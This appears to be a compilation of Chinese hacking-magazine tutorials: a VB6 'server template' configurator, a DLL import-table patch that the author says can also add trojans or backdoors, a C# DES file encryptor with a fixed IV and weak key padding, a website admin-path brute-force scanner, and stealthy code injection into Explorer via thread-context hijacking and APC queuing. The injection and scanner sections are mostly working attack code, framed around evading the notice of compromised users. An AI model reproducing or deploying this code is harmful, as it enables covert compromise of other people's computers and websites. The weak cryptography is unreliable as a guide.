打开 VB6，新建一个工程 t.vbp。因为定位指针到文件末尾需要知道编译后的模板文件 t.exe 的大小，而写代码时 t.exe 又尚未生成，所以在代码中可以先用未定义常量 FILE_SIZE 来代指文件大小，最后编译成 t.exe 后再将文件大小定义给 FILE_SIZE。代码如下：

```vb
Const FILE_SIZE=20480  '这是编译后文件模板的大小
Private Sub Form_Load()
    Dim bAppend As Byte, iNum As Long
    Dim i As Long, sInfo As String
    Open App.Path & "\" & App.EXEName & ".exe" For Binary Access Read As #1
    Seek #1, FILE_SIZE+1
    For iNum = 1 To FileLen(App.Path & "\" & App.EXEName & ".exe") - FILE_SIZE
        Get #1, , bAppend
        sInfo = sInfo + Chr(bAppend)
    Next iNum
    Close #1
    MsgBox sInfo
End Sub
```

下面再来做主体文件，让用户在其中进行配置服务端。另外新建一个工程 config.vbp，添加服务端模板文件 t.exe 为 CUSTOM 类资源，资源号为 101。如果你的 VB 没有资源编辑器，请从“外接程序/外接程序管理器”中进行添加，以后就可以从工具菜单下运行资源编辑器了。

界面上设置一个标签、一个文本框和一个按钮，如图 1 所示。

我们要做到的是，用户配置后点击按钮，程序释放 t.exe 并将配置信息追加到 t.exe 的末尾，本工程的代码如下：

```vb
Const FILE_SIZE = 20480  '这是101号资源中的服务端文件t.exe的大小
Private Sub Command1_Click()
    Dim bInfo As Byte
    Dim bFile() As Byte
    Dim iInfoLen As Integer
    Dim i As Integer, iFile As Long
    iInfoLen = Len(txtInfo.Text)
    If txtInfo.Text = "" Then
        MsgBox "请配置弹出消息！", vbCritical
        Exit Sub
    End If

    '引入文件对话框部件，并命名为cdLocation
    cdLocation.Filter = "可执行文件(*.exe)|*.exe"
    cdLocation.ShowSave
    If cdLocation.FileName = "" Then Exit Sub
    On Error GoTo myErr
    bFile = LoadResData(101, "CUSTOM")

    Open cdLocation.FileName For Binary Access Write As #1
    For iFile = 0 To FILE_SIZE - 1
        Put #1, , bFile(iFile)
    Next iFile
    For i = 1 To iInfoLen
        bInfo = Asc(Mid(txtInfo.Text, i, 1))
        Put #1, , bInfo
    Next i
    Close #1
    Exit Sub
myErr:
    Reset
    MsgBox Err.Description & "，配置信息请用半角字符"
End Sub
```

选择菜单“文件/生成 Config.exe”，执行编译后的 Config.exe，在配置框中输入“hello!”，点击“生成 EXE”按钮，选择保存位置及文件名，假设为 ok.exe。执行 ok.exe，效果如图 2 所示。

对于复杂的配置信息，特别是含有双字节的全角字符，我们还要作特别处理，或干脆将配置信息写成一个 ini 文件，并追加在 t.exe 之后，直到释放出 EXE 后再读取。

---

适合读者：编程爱好者、破解爱好者  
前置知识：无

#### 为任意 EXE 插入 SplashScreen

文/图 林金明

##### 引子

相信玩过逆向工程的人，都会给任意的 exe 文件加入 MessageBox 吧（也就是在程序启动前先弹出个 MessageBox 对话框，当用户点击确定的时候，进入程序），我先总结下上述过程的实现方法，然后进入本文的主题。

- 在 .data 段找到 cave 地方，填入 MessageBox 显示的字符串。
- 在 .text 段找到 cave 地方（主要用来写 patch 代码）：`push 000`（类型）、`push 0040312C`（标题字符串地址）、`push 00403148`（内容字符串地址）、`push 000`（句柄）、`call MessageBoxA`，最后 `jmp` 回原 OEP 处。
- 用 LordPE 将程序的 OEP 修改为 `004012B4`，完成插入。

不过今天我们的目标不是为 exe 文件插入 MessageBox，而是为 exe 文件插入 splash screen（程序启动界面，如 Photoshop、Flash 等大型软件都有漂亮的启动界面），相信大家目前已经想到用上面的方法同样实现吧，别急，我们先看看可行性。

- 需要调用 CreateWindow 来创建窗口，并为该窗口指定一个消息处理函数；然后在 WM_CREATE 处调用 SetTimer 创建计时器，接着在 WM_PAINT 分支加载图片，在 WM_TIMER 分支处关闭窗口；当窗口关闭时需要回到原程序入口点继续执行，使原程序能够正常工作。
- 如果上述需要用到的函数在输入表中没有的话，那就需要我们自己去导入这些函数。

上述问题意味着你需要 patch 大量的代码，这样即使你有足够的精力去做的话，也必将浪费掉大量的时间。如何快速插入一个 SplashScreen 这将是我们最大的挑战。

##### 分析

分析下 PE 装载器的工作原理，相信会有事半功倍的效果。PE 装载首先找到输入表中程序需要用到的函数，然后将该函数所在的 DLL 加载到进程空间中（在加载 DLL 到进程空间时，PE 装载器将会调用 DLL 中的 DllMain 函数，执行完该函数后，继续加载其它动态库，最后进入程序入口点执行程序）。

这不正是我们想要的地方吗？如果我们在 DllMain 中调用 DialogBoxParam 函数，在资源中创建对话框，不正好产生了 SplashScreen 效果么？

> DialogBoxParam 函数直到对话关闭时才返回；这意味着当我们的对话没有关闭前，DllMain 函数不可能执行完毕。根据 PE 装载器工作过程的分析，在对话框关闭前程序不可能执行，程序继续加载其它模块，加载完毕，主程序才开始执行。

###### 实现

创建个 DLL 工程，加入如下代码：

```c
#include "stdafx.h"
int DummyFunc() // 空函数
{
    return 0; // 这个空函数一定需要，我们把它放入到dll的输出表中
}
```

因为一会我们需要把该函数加入到我们需要添加 SplashScreen 的程序的输入表中，如果该 DLL 一个输出函数都没有，那我们将无法为原程序添加输入函数。这就意味着，PE 装载器不会加载我们写的 DLL 到程序的进程空间中去。

```c
BOOL DlgProc(HWND hwnd, UINT msg, WPARAM wparam, LPARAM lparam)
{
    DWORD TimerID;
    switch(msg)
    {
    case WM_CLOSE:
        KillTimer(hwnd, TimerID);
        EndDialog(hwnd, 0);
        break;
    case WM_INITDIALOG:
        int ScreenWidth, ScreenHeight, StartPosX, StartPosY, WndWidth, WndHeight;
        RECT WndRect;
        ScreenWidth  = GetSystemMetrics(SM_CXSCREEN);
        ScreenHeight = GetSystemMetrics(SM_CYSCREEN);
        GetWindowRect(hwnd, &WndRect);
    }
}
```

```cpp
WndWidth=WndRect.right-WndRect.left;
WndHeight=WndRect.bottom-WndRect.top;
TimerID = SetTimer(hwnd, 466, 3000, NULL);
```

这里插入点汇编，主要是跟大家介绍下，右移是除以二，左移是乘以二（移位指令比除法指令快，希望大家能接受这一思想），这里顺便介绍了如何在 C++ 中插入汇编。下面这段算法主要是将窗口显示在屏幕的中央。

```cpp
asm{
  mov eax,ScreenWidth
  sub eax,WndWidth
  shr eax,1   // 右移1位等价于除以2
  mov StartPosX,eax
  mov eax,ScreenHeight
  sub eax,WndHeight
  shr eax,1
  mov StartPosY,eax
}
// 上面代码的等价C++代码如下：
// StartPosX=(ScreenWidth-WndWidth)>>1;
// StartPosY=(ScreenHeight-WndHeight)>>1;
SetWindowPos(hwnd,HWND_TOPMOST,StartPosX,StartPosY,WndWidth,WndHeight,SWP_HIDEWINDOW);
...
case WM_TIMER:
{
  SendMessage(hwnd, WM_CLOSE,0,0);
}
...
BOOL APIENTRY DllMain(HANDLE hModule, DWORD fdwReason, LPVOID lpReserved)
{
  switch(fdwReason){
    case DLL_PROCESS_ATTACH:
      DialogBoxParam((HINSTANCE)hModule,MAKEINTRESOURCE(102),NULL,(DLGPROC)DlgProc,NULL);
      break;
    case DLL_PROCESS_DETACH:
      break;
  }
  return TRUE;
}
```

建立 1 个 Def 文件，将 DummyFunc 函数导出，Def 文件内容如下：

```def
LIBRARY
EXPORTS
    DummyFunc
```

OK！上面已经给出了主要的代码，至于资源方面的设计，我相信大家都会，这里就不再多说。（具体见源代码）接下来需要讲的是，如何使用我们这个 DLL。需要将我们刚才导出的 DummyFunc 添加到需要修改的程序的输入表中，手动添加当然可以（这要求对 PE 文件的结构有足够的了解），不过现在我教大家用工具快速添加，打开 LordPE，加载我们需要修改的 exe 文件，如图 1 所示。

选择 Directories 按钮，弹出对话框，如图 2 所示。选择 ImportTable 右边的“...”按钮，此时再次弹出个对话框，我们在这里为该程序加入函数，如图 3 所示。点击 add import，在弹出的对话框中，如图 4 所示设置。选择“+”按钮，此时成功加入。至此我们已经成功地为一个程序加入 SplashScreen 了。如果你想为其他程序加入，只要带上我写的动态库和 LordPE 就可以快速搞定。

程序中给出了两种方案，第一种方案只适用于写 patch 代码量比较小的程序，而第二种方案你就能彻底地为程序添加丰富的功能了，包括木马、后门等。这需要大家多动动脑，在此我就不多说了。

---

Socket：VS .NET 2005 发布已经有些时间了，然而还有很多的朋友在使用 VS6 系列，这并没有冲突的地方。不过黑客对新技术和新知识都是有着追逐热情的，对于初次接触 .NET 编程的朋友来说，本文能够对你起到点醒入门的作用，真心希望大家能够加入到 .NET 的世界中来。

适合读者：编程爱好者  
前置知识：无

## C#实现文件加密

文/图 杰哥

数据加密技术一直是黑客学习的一项重要方面，下面我教大家亲手打造一个加密、解密软件。

> 现代加密学主要有两种基于密钥的加密算法：

- 对称加密算法；
- 公开加密算法。

DES 算法是典型的对称加密算法，这是本次编程使用的加密技术。加密的大致过程是：将 64 位数据经过一个初始置换后，经过 16 轮的迭代转换，产生新的 64 位数据，再经过逆置换得到 64 位新密文。

现在进入主题，开始编写代码。编程环境是 Visual Studio .NET 2005。设计界面如图 1 所示。

```csharp
MessageBox.Show("请输入加密输出文件！", "信息提示", MessageBoxButtons.OK, MessageBoxIcon.Information);
return;

if (this.textBox3.Text.Length < 6)
{
    MessageBox.Show("密码必须超过6位！", "信息提示", MessageBoxButtons.OK, MessageBoxIcon.Information);
    return;
}

if (this.textBox3.Text != this.textBox4.Text)
{
    MessageBox.Show("两次输入密码不一致！", "信息提示", MessageBoxButtons.OK, MessageBoxIcon.Information);
    return;
}

// 获得被加密的文件名
string MyInFileName = this.textBox1.Text;
// 获得加密输出文件名
string MyOutFileName = this.textBox2.Text;
// 设定初始向量
byte[] MyDESIV = { 0x01, 0x02, 0x03, 0x04, 0x05, 0x06, 0x07, 0x08 };
```

打开文件 click 事件代码如下：

```csharp
if (this.openFileDialog1.ShowDialog() == DialogResult.OK)
{
    // 显示对话框，并获得返回值
    this.textBox1.Text = this.openFileDialog1.FileName;
}
```

文件加密 click 事件代码如下：

```csharp
if (this.textBox1.Text == "")
{
    MessageBox.Show("请输入加密文件！", "信息提示", MessageBoxButtons.OK, MessageBoxIcon.Information);
    return;
}
if (this.textBox2.Text == "")
{
    ...
}
```

这里是根据密码设置密钥大小，解释已经很详细了。下面是算法的一些相关设置。

```csharp
string MyKeyString = this.textBox3.Text;
if (MyKeyString.Length == 6)
{
    MyDESKey = new byte[] {(byte)MyKeyString[0],(byte)MyKeyString[1],(byte)MyKeyString[2],(byte)MyKeyString[3],(byte)MyKeyString[4],(byte)MyKeyString[5],0x07,0x08};
}
if (MyKeyString.Length == 7)
{
    MyDESKey = new byte[] {(byte)MyKeyString[0],(byte)MyKeyString[1],(byte)MyKeyString[2],(byte)MyKeyString[3],(byte)MyKeyString[4],(byte)MyKeyString[5],(byte)MyKeyString[6],0x07};
}
if (MyKeyString.Length >= 8)
{
    MyDESKey = new byte[] {(byte)MyKeyString[0],(byte)MyKeyString[1],(byte)MyKeyString[2],(byte)MyKeyString[3],...};
}
```

```csharp
MyKeyString[4], (byte)MyKeyString[5], (byte)MyKeyString[6],
(byte)MyKeyString[7];
...
// 创建输入和输出文件流
FileStream MyInFileStream = new FileStream(MyInFileName, FileMode.Open, FileAccess.Read);
FileStream MyOutFileStream = new FileStream(MyOutFileName, FileMode.OpenOrCreate, FileAccess.Write);
MyOutFileStream.SetLength(0);
...
byte[] InsertData = new byte[100];
int CompletedLength = 0;
long InFileSize = MyInFileStream.Length;
DES MyDES = new DESCryptoServiceProvider();
CryptoStream EncryptStream = new CryptoStream(...);
```

```csharp
(MyOutFileStream, MyDES.CreateEncryptor(MyDESKey, MyDESIV), CryptoStreamMode.Write);
// 从输入文件中读取流，然后加密到输出文件中
while (CompletedLength < InFileSize)
{
    int Length = MyInFileStream.Read(InsertData, 0, 100);
    EncryptStream.Write(InsertData, 0, Length);
    CompletedLength = CompletedLength + Length;
}
EncryptStream.Close();
MyOutFileStream.Close();
MyInFileStream.Close();
MessageBox.Show("文件加密已经操作成功", "信息提示", MessageBoxButtons.OK, MessageBoxIcon.Information);
```

解密过程与此大致相同，大家可以在光盘里找到源代码。需要注意的是，此程序使用 VS.NET 2005 编写，所以测试程序的时候，你需要先安装 .NET Framework 2.0。

- 适合读者：网络爱好者、入侵爱好者、编程爱好者
- 前置知识：无

#### 目录后台猜解和文件探测程序

文／图 红色银狐


今天给大家谈个老话题，就是网站后台路径猜测和文件的探测。这不是什么新东西，在各种注入工具里都自带，不过我还是想介绍一下原理给新手，在这里使用 VB 给大家分析。

首先让我们看看网站后台综合猜解的界面，如图1所示。


图1

它分为字典、组合、暴力三种方式猜解。字典我用的是 NBSI 的文本文件，其他的猜解是字母、数字和下划线的组合。

对网站后台猜解我用的是 Internet Transfer 控件，字典猜解中有这段代码。

```vb
Rem 字典猜解
Private Sub DictionaryGuess(ByVal Url As String)
' 读取文件
Dim sAdmin As String
Dim i As Integer

Open App.Path & "\Dict_Admin.txt" For Input As #1
Do While EOF(1) = False
    DoEvents
    If bBegin = True Then
        Close #1
        SBarPanels(1).Text = "猜解被终止"
        bBegin = False
        Exit Sub
    End If
    i = i + 1
    Line Input #1, sAdmin
    GetHttpState Url, sAdmin
    If Right$(Url, 1) <> "/" And Right(Url, 1) <> "\" Then Url = Url & "/"
    SBarPanels(1).Text = "正在猜解第" & i & "个后台地址: " & Url & sAdmin
    ProgressChange i - 1, iProgress
Loop
If EOF(1) = True Then
    SBarPanels(1).Text = "猜解完毕..."
    PBar.Value = 0
    CmdBegin.Enabled = True
    CmdStop.Enabled = False
    FrameSpeComp.Enabled = True
End If

bOpCom = True
bForce = True
End If
Close #1
End Sub

Rem Http报头信息的判断
Private Sub GetHttpState(ByVal Url As String, ByVal StrDic As String)
    On Error GoTo DisplayErr
    Dim sHp As String
    Dim sHttp As String
    Dim i As Integer
    Dim HpArr() As String
    If Right(Url, 1) <> "/" And Right(Url, 1) <> "\" Then
        Url = Url & "/"
    End If
    Url = Url & StrDic
    Inet1.OpenURL Url
    sHp = Inet1.GetHeader()
    HpArr = Split(sHp, vbCrLf, -1, vbTextCompare)
    sHttp = Left$(HpArr(0), 12)
    Select Case sHttp
        Case "HTTP/1.1 200"
            LtUrl.AddItem Url & " 状态: 可以访问 (200)"
        Case "HTTP/1.1 302"
            LtUrl.AddItem Url & " 状态: 页面重定向 (302)"
        Case "HTTP/1.1 403"
            LtUrl.AddItem Url & " 状态: 拒绝目录列表 (403)"
        Case "HTTP/1.1 500"
            LtUrl.AddItem Url & " 状态: 内部服务器错误 (500)"
    End Select
Exit Sub
DisplayErr:
    MsgBox Err.Description, vbCritical, Designer
End Sub
```

```vb
Next
End Sub

Rem 开始使用组合猜解
Private Function RecursionGuess(ByVal StrDic As String, ByVal iLen As Long) As String
    If bBegin = False Then
        Dim i As Long
        Dim iCount As Long
        Dim sHp As String
        Dim sHttp As String
        Dim HpArr() As String
        Dim sCompUrl As String
        Dim sComArr() As String
        DoEvents
        If iLen > 0 Then
            For i = 1 To Len(StrCompLetter) Step 1
                RecursionGuess = StrDic & Mid(StrCompLetter, i, 1)
                RecursionGuess RecursionGuess, iLen - 1
                Call ProgressChange(i, Len(StrCompLetter))
            Next
        Else
            sComArr = Split(CompStr, "<YH>", -1)
            On Error GoTo DisplayErr
            For i = LBound(sComArr, 1) To UBound(sComArr, 1)
                sCompUrl = CombLink.Text
                If Right$(sCompUrl, 1) <> "/" And Right$(sCompUrl, 1) <> "\" Then
                    sCompUrl = sCompUrl & "/"
                End If
                sCompUrl = sCompUrl & Replace(sComArr(i), "|", StrDic)
                Inet1.OpenURL sCompUrl
                sHp = Inet1.GetHeader()
                HpArr = Split(sHp, vbCrLf, -1, vbTextCompare)
                sHttp = Left$(HpArr(0), 12)
                Select Case sHttp
                    Case "HTTP/1.1 200"
                        LtUrl.AddItem sCompUrl & " 状态: 可以访问 (200)"
                    Case "HTTP/1.1 302"
                        LtUrl.AddItem sCompUrl & " 状态: 页面重定向 (302)"
                    Case "HTTP/1.1 403"
                        LtUrl.AddItem sCompUrl & " 状态: 拒绝目录列表 (403)"
                    Case "HTTP/1.1 500"
                        LtUrl.AddItem sCompUrl & " 状态: 内部服务器错误 (500)"
                End Select
                SBar.Panels(1).Text = sCompUrl
                sCompUrl = ""
            Next
            Exit Function
DisplayErr:
            MsgBox Err.Description, vbCritical, Designer
        End If
    End If
End Function
```

上面的代码是读取文件 `Dict_Admin.txt` 中的每行数据，然后用 Internet Transfer 控件的 OpenURL 方法发出请求，再用 GetHeader 方法取得 HTTP 报头信息。至于 HTTP 状态码的值，我简单说一下我所用到的：“HTTP/1.1 200 OK” 是一切正常，证明页面存在；“HTTP/1.1 301 Moved Permanently” 或 “HTTP/1.1 302 Found” 都是页面重定向；“HTTP/1.1 403 Forbidden” 是拒绝目录列表；“HTTP/1.1 500 Internal Server Error” 是内部服务器错误；“HTTP/1.1 404 Not Found” 是无法找到指定位置的资源。还有其它的如 HTTP/1.0 的版本。当我们收到 HTTP 报头信息后，它是以回车和换行分段的，所以我们可以用 VB 中的 vbCrLf 进行分割，取出状态码的值。

组合猜解和暴力猜解用到的原理和字典是一样的，不过这里有个算法，就是穷举完所有的字母、数字和下划线。部分代码如下。

```vb
Rem 组合猜解过程
Private Sub BruteForce()
    Dim i As Long
    For i = iMin To iMax Step 1
        RecursionGuess vbNullString, i
```

大家可以仔细看看这段代码，我使用的是递归算法。接着我们开始看看文件探测工具，如图2所示。它的原理和上面是一样的，在这里我说一下进度条部分的编写。


图2

```vb
Rem 进度条的显示
Private Sub ProgressChange(ByVal Progress As Long, ByVal ProgressMax As Long)
    If ProgressMax = 0 Then Exit Sub

' 进度条变化
PBar.Max = ProgressMax
If Progress <> -1 And Progress <= ProgressMax Then
    PBar.Value = Progress
End If
End Sub
```

其中参数 Progress 是个进度数，ProgressMax 是最大数，所以在使用时先确定最大数就可以实现了。假设你在字符选项中选择了字母，那么 ProgressMax 的最大值是 26，而 Progress 却是从 1 到 26 的进度，这样就实现了进度的功能。还有一点就是在猜解 mdb、rar、zip 时会出现类型不匹配的错误；如果出现此类错误，那么证明该文件是存在的。好了，文章就到这里，源码已经打包了，如果有兴趣的读者可以自己研究，希望你们编写的程序比我的更好。

- 适合读者：网络爱好者、编程爱好者、木马爱好者
- 前置知识：木马编程基础

## 线程注入技术

### 新发展遐补

文／Black Beast


##### 前言

最近我对线程注入技术进行了进一步的研究，对线程代码编写复杂的问题进行了一定的修正。不过在本人以前写的文中所提到的新方法有一个缺陷，就是它需要开启一个新的进程，而不能利用系统原有进程进行操作。为此，我找了两个方法来解决此问题。

##### 方法一

#### 1. 概述

我们还是拿 Explorer 开刀，也许你会想，我们可以直接从 Explorer 中取一个线程，直接设置其上下文。我最初也是这样想的，但事实证明这样行不通。我们的代码的确会执行，但 Explorer 马上会因为非法操作而关闭，我们辛辛苦苦开启的远程线程自然也就随之玉石俱焚了。

要想解决该问题，需要在远程代码上动脑筋，尽量恢复 Explorer 原来的样子，骗过 Windows。系统程序执行的整体流程没什么变化：打开 Explorer 进程，并获得其中某个线程 A 的句柄 H，然后在 Explorer 进程空间中写入远程线程执行代码 Code1，再将 A 挂起，获得该线程的上下文环境 Context1，然后将 A 上下文环境更改，使其接下来运行 Code1，并把 Context1 传递给 Code1，最后恢复 A 线程的运行。

在 Code1 中我采用的方法是：首先 A 线程获得原来的上下文环境 Context1，并开启另一个新线程 B，把 Context1 和自己的 ID 号传递给 B，B 线程根据 A 的线程 ID 获得 A 的句柄，并将其挂起。使用 Context1 设置 A 的线程上下文，然后恢复 A 的运行。做完这些工作后，B 就可以开启新的工作者线程，然后做自己想做的事情了。

这里需要注意的是，A 线程和 B 线程的工作绝对不能互换。如果试图让 A 线程在创建 B 线程后，再将 B 线程的线程上下文设置为 Context1，也就是 A 线程以前的上下文，让 B 来接替 A 的工作。这样会直接触发 Windows XP SP2 的特有保护机制——数据执行保护，系统马上会弹出一个对话框提示终止 Explorer 进程，然后就非法操作了。

有人也许会想，B 线程不必开启新的工作者线程，此刻它自身已经可以进行其它操作了。事实证明这样不好，经过实验，B 线程如果在此时再进行某些复杂操作，会导致 Explorer 停止响应或响应速度变慢。虽然原因不明，但还是让 B 尽快结束比较好，毕竟可以减少肉鸡使用者的怀疑。

有人会觉得我们挂起了 Explorer 中的某个线程，可能会导致 Windows 某些操作停滞从而被人发现，实验证明这种担心是多余的：因为正常情况下，这一切操作会在瞬息完成，用户根本不会有任何察觉。

> 这里需要注意的是，A线程和B线程的工作绝对不能互换……否则会触发系统保护机制并导致 Explorer 被终止。

怎么样？使用这种方法，神不知鬼不觉地在 Explorer 中插入了自己的线程，可谓是天衣无缝。

#### 2. 代码分析

我的习惯始终是先讲原理，再分析代码。现在 Code Analysis Time!

首先我们来分析注入程序的代码，这些代码是在《线程注入技术新发展下》一文中代码的基础上更改的，读者不妨对比着看。

整个注入过程包含在一个 SEH 结构中（其实这样不好，SEH 比较适合 C 语言，与 C++ 兼容性并不出色，我懒得改了，读者如有需要，可以自行更改）。

主要代码如下：

```cpp
if((pImage = (LPBYTE)TheTool.LoadDllToMem()) == NULL)
{
    // 这里是打开包含远程代码DLL的步骤
    TheTool.ErrorOut("Load Error");
    __leave;
}

if((dwProcessId = TheTool.GetTargetProcessId()) == 0)
{
    // 获得目标进程的ID，也就是我们的Explorer
    TheTool.ErrorOut("Get Target Process ID Error");
    __leave;
}

if((hProcess = OpenProcess(PROCESS_CREATE_THREAD|PROCESS_VM_WRITE|PROCESS_VM_OPERATION,
    FALSE, dwProcessId)) == NULL)
{
    // 打开Explorer进程
    TheTool.ErrorOut("Open Process Error");
    __leave;
}

HANDLE ThreadHandleEntry;
THREADENTRY32 ThreadEntry32 = {0};
HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, 0);
if(hSnapshot == INVALID_HANDLE_VALUE)
{
    TheTool.ErrorOut("Get Snapshot Thread Error");
    __leave;
}

ThreadEntry32.dwSize = sizeof(THREADENTRY32);
if(Thread32First(hSnapshot, &ThreadEntry32))
{
    BOOL Found = FALSE;
    do
    {
        if(ThreadEntry32.th32OwnerProcessID == dwProcessId)
        {
            HANDLE hTargetThread = OpenThread(THREAD_ALL_ACCESS, FALSE, ThreadEntry32.th32ThreadID);
            ThreadHandleEntry = hTargetThread;
            Found = TRUE;
        }
    } while(...);
}
```

```cpp
while((Thread32Next(hSnapshot, &ThreadEntry32)) && (Found==FALSE))
{
    ...
}
else
{
    TheTool.ErrorOut("Get System Thread Error");
    __leave;
}

if((pInjectPos = (LPBYTE)VirtualAllocEx(hProcess, NULL,
    TheTool.PImageNtHeader->OptionalHeader.SizeOfImage,
    MEM_COMMIT, PAGE_EXECUTE_READWRITE)) == NULL)
{
    // 在Explorer中分配空间
    TheTool.ErrorOut("Alloc Space Error");
    __leave;
}

cntxt.ContextFlags = CONTEXT_FULL;
SuspendThread(ThreadHandleEntry);
if(!GetThreadContext(ThreadHandleEntry, &cntxt))
{
    TheTool.ErrorOut("Get Thread Context Error");
    __leave;
}

TheTool.ConstructData(pImage, pInjectPos, (PVOID*)&pEntry, (PVOID*)&pParam, &cntxt);
if(!WriteProcessMemory(hProcess, pInjectPos, pImage,
    TheTool.PImageNtHeader->OptionalHeader.SizeOfImage, NULL))
{
    // 将远程代码写入目标进程Explorer
    TheTool.ErrorOut("Write Target Process Memory Error");
    __leave;
}

cntxt.Eip = (DWORD)pEntry;
DWORD ParamentAddress = (DWORD)pParam;
if(!WriteProcessMemory(hProcess, (LPVOID)(cntxt.Esp - sizeof(DWORD)),
    (LPVOID)&ParamentAddress, sizeof(DWORD), &dummy))
{
    TheTool.ErrorOut("Write Parament Error");
    __leave;
}

cntxt.Esp -= sizeof(DWORD) * 2;
if(!SetThreadContext(ThreadHandleEntry, &cntxt))
{
    TheTool.ErrorOut("Set Thread Context Error");
    __leave;
}

if(!ResumeThread(ThreadHandleEntry))
{
    TheTool.ErrorOut("Resume Thread Error");
}
```

```cpp
...
__leave;
...
bOK = TRUE;
...
finally
```

以上就是注入过程代码。至于类对象 TheTool 的成员函数实现，与上两篇文章中的代码基本相同（本文的 ConstructData 增加了一个参数用来传递 Context 值，只有这一点不同），具体原理可以参照《线程注入技术新发展上》。

下面我们来介绍最重要的远程线程代码：

```cpp
struct ThreadPara
{
    DWORD FatherThreadID;
    CONTEXT TargetContext;
};
```

该结构体就是上文说的 A、B 线程之间传递参数的结构。至于两个成员变量的作用，大家看变量名就可以猜出来吧？

下面是远程线程函数：

```cpp
DWORD ThreadMain(HINSTANCE hInst, CONTEXT Context)
{
    DWORD dwThreadId;
    HANDLE hThread;
    ThreadPara ThreadParament;
    ThreadParament.FatherThreadID = GetCurrentThreadId();
    ThreadParament.TargetContext = Context;
    hThread = CreateThread(NULL, 0, TryThreadFun, &ThreadParament, 0, &dwThreadId);
    if (hThread == NULL) {
        char Tmp[22];
        sprintf(Tmp, "Error Code '%d'", GetLastError());
        MessageBox(NULL, Tmp, "haha", MB_OK);
    } else {
        WaitForSingleObject(hThread, 0xFFFFFFFF);
    }
    return 0;
}
```

> 其实真正的远程线程函数是 ThreadEntry，在方法一中，此函数没有任何改变。关于函数原理，大家可以参考前几期的黑防。ThreadMain 是在 ThreadEntry 中完成导入表处理后调用的一个函数。

下面是线程 B 的代码：

```cpp
DWORD WINAPI TryThreadFun(LPVOID lpParam)
{
    DWORD dwThreadId;
    ThreadPara *pParament = (ThreadPara *)lpParam;
    ...
}
```

```cpp
HANDLE hThread = OpenThread(
    THREAD_ALL_ACCESS, FALSE, pParament->FatherThreadID);
// 获取线程A（父线程）句柄
SuspendThread(hThread);
SetThreadContext(hThread, &(pParament->TargetContext));
ResumeThread(hThread);
hThread = CreateThread(NULL, 0, TryThreadFun2, NULL, 0, &dwThreadId);
return 0;
```

下面是原理中提到的工作者线程的代码，在其中我写了一个 MessageBox 的操作进行测试。

```cpp
DWORD WINAPI TryThreadFun2(LPVOID lpParam)
{
    MessageBox(NULL, "Thread Success!", "haha", MB_OK);
    return 0;
}
```

##### 方法二

### 1. 原理

此方法与前几期介绍的方法完全不同，是基于异步过程调用的。

> 异步过程调用就是 APC。每个线程都有异步过程调用队列，用来存储异步过程调用请求；当一个线程处于 Alertable 状态时，如果该队列中存在相应请求就会执行该请求。一个异步过程调用发出后，调用者不能立刻得到结果，实际处理该调用的事件在完成后，通过状态、通知和回调来通知调用者。

当一个程序调用 SleepEx、SignalObjectAndWait、MsgWaitForMultipleObjectsEx、WaitForMultipleObjectsEx 或 WaitForSingleObjectEx 时，就会使调用者线程处于 Alertable 状态。

在微软提供的浩如烟海的 API 中，有一个 QueueUserAPC 的 API。该 API 可以在用户态给某个特定线程在其异步过程调用队列中添加一个任务。所以我们只要找到一个处于 Alertable 状态的线程，给它提交一个异步过程调用请求，在该请求中执行自己的远程线程代码，我们的注入大计就完成了。

先别忙着高兴，我们还有一个问题没有解决，那就是如何找到一个处于 Alertable 状态的线程。如果我们随便找一个线程添加 APC 请求，可能等到我们的远程代码执行了，花都谢了。如果处于内核态，我们可以获取并检验线程 UserApcPending 的值来判断该线程是否处于 Alertable 状态；可是在用户态，该 BOOL 值是无法访问的，怎么办？

我们可以换一种解决方法：一般情况下 Explorer 中的十几个线程总有处于 Alertable 状态的，全数插入我们的 APC 过程就好了，剩下的事情让系统替我们完成。

我们最终的解决方案就是：首先获取 Explorer 进程句柄，进而遍历该进程中全部线程，给每个线程中都添加 APC 请求，然后在 APC 请求中设置一个信号量，确保同样的代码只执行一次，这样的话我们的远程代码就可以顺利执行了。

这种解决方案虽然并不优美，但却十分有效。

### 2. 代码分析

好了，现在分析讲完了，来点实际的。首先剖析注入代码：

```cpp
// 前方省略获得进程句柄、远程分配空间等代码若干...
TheTool.ConstructData(pImage, pInjectPos, (PVOID*)&pEntry, (PVOID*)&pParam);
if (!WriteProcessMemory(hProcess, pInjectPos, pImage, TheTool.PImageNtHeader->OptionalHeader.SizeOfImage, NULL))
{
    TheTool.ErrorOut("Write Target Process Memory Error");
    __leave;
}

typedef void (__stdcall *PAPCFUNC)(DWORD_PTR dwParam);
THREADENTRY32 ThreadEntry32 = {0};
HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, 0);
if (hSnapshot == INVALID_HANDLE_VALUE)
{
    TheTool.ErrorOut("Get Snapshot Thread Error");
    __leave;
}

ThreadEntry32.dwSize = sizeof(THREADENTRY32);
if (Thread32First(hSnapshot, &ThreadEntry32))
{
    do {
        if (ThreadEntry32.th32OwnerProcessID == dwProcessId)
        {
            HANDLE hTargetThread = OpenThread(THREAD_ALL_ACCESS, FALSE, ThreadEntry32.th32ThreadID);
            if (QueueUserAPC((PAPCFUNC)pEntry, hTargetThread, (DWORD)pParam) != 0)
                bOK = TRUE;
        }
    } while (Thread32Next(hSnapshot, &ThreadEntry32));
}
else
{
    TheTool.ErrorOut("Get System Thread Error");
    __leave;
}
CloseHandle(hSnapshot);
```

下面是远程线程代码：

```cpp
DWORD WINAPI ThreadEntry(PTHREADPARAM pParam)
{
    DWORD dwResult = -1;
    try {
        ...
    }
}
```

```cpp
if (LoadImportFnc(pParam->pImageBase, pParam->fnLoadLibrary, pParam->fnGetProcAddr))
{
    HANDLE hMutex = CreateMutex(NULL, FALSE, "MutexToMakeSureOneThread");
    if (hMutex == NULL)
    {
        MessageBox(NULL, "Check for error!", "uclar", MB_OK);
        return 0;
    }

    DWORD dwWaitResult = WaitForSingleObject(hMutex, 0);
    if (dwWaitResult == WAIT_TIMEOUT)
    {
        SleepEx(10, TRUE);
        return 0;
    }

    dwResult = ThreadMain((HINSTANCE)pParam->pImageBase);
    ReleaseMutex(hMutex);
}
except (EXCEPTION_EXECUTE_HANDLER)
{
    dwResult = -2;
}
return dwResult;
```

以上就是远程线程的全部关键代码讲解。在这里我的测试依然是 MessageBox 操作和新建线程操作，结果都可以正常进行。

### 3. 小结

